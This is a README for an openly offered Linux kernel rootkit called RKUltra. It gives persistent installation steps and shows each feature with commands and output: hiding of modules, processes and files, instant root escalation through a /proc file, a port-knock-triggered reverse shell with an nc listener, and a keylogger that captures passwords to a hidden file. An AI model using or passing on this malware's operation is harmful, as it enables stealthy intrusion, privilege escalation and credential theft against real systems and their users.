 
# RKUltra

> A full-featured Linux 5.4 LKM Rootkit (Tested on Ubuntu 20.04)

# Dependencies

In order to build, the following packages are required:

- build-essential
- linux-headers

`sudo apt install build-essential linux-headers-$(uname -r)`

Alternatively, a Vagrantfile is provided for Ubuntu 20.04 with dependencies installed [here](Vagrantfile).

# Installation and Use

An installer script has been provided to help you get up and running, to use simply run the following

```bash
sudo ./installer.sh install
```

This will make and install the rootkit persistently, by dropping the compiled `.ko` into a folder in `/lib/modules/` and adding it to `/etc/modules`

From here, the rootkit is now active. By default it is interfacable via a procfile located in `/proc/rootkit` and hidden from the user

# Features

## Toggle hiding

In order to toggle all file/folder/process/module hiding, you can write `toggle` to the procfile interface

```bash
$ lsmod | grep rootkit
$ echo toggle > /proc/rootkit 
$ lsmod | grep rootkit
rootkit                24576  0
```

## Elevate permissions

For any process to elevate to running with root permissions, all it has to do is write `root` into the procfile

```bash
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$ echo root > /proc/rootkit
$ id
uid=0(root) gid=0(root) groups=0(root)
```

## Hide a process

Writing `hide<PID>` to the procfile will hide that process and it's children from all other processes on the system, while it will remain visible to you.

Process 1
```bash
$ echo $$
86711
$ echo hide$$ > /proc/rootkit
$ ps aux | grep $$ # Process remains visible to self
vagrant    86711  0.0  0.0   9836  4232 pts/0    Ss   14:09   0:00 /bin/bash
```
Process 2
```bash
$ ps aux | grep 86711 # Process cannot be seen by others
$ echo toggle > /proc/rootkit  
$ ps aux | grep 86711 # Can be seen when hiding is disabled
vagrant    86711  0.0  0.0   9836  4232 pts/0    Ss+  14:09   0:00 /bin/bash
```

The opposite can be done using `unhide`

## Remote access

In order to trigger a reverse shell, you can knock on a series of ports: [5295, 9257, 7369]. Upon doing this, a reverse shell to your IP on port 4444 will be opened.

Listen for connection
```bash
$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.99.10.
Ncat: Connection from 192.168.99.10:49748.
root@vagrant:/#
```
Knock ports example
```bash
$ knock 192.168.99.10 5295
$ knock 192.168.99.10 9257
$ knock 192.168.99.10 7369
```

## Keystroke Logging

All keystrokes are logged to a file in `/usr/rk_file_keylog` - the file is named as such because any file with the prefix `rk_file_` will be hidden from directory listing.

```bash
$ sudo tail -f /usr/rk_file_keylog
Starting keylogger
test_user
PaSsWoRd
<CTRL>c
<CTRL>z
<CAPSLOCK>AAAAAAA
<CAPSLOCK>calm
```
# Removal
The following will unhide the module and remove it from the system
```bash
sudo ./installer.sh remove
```
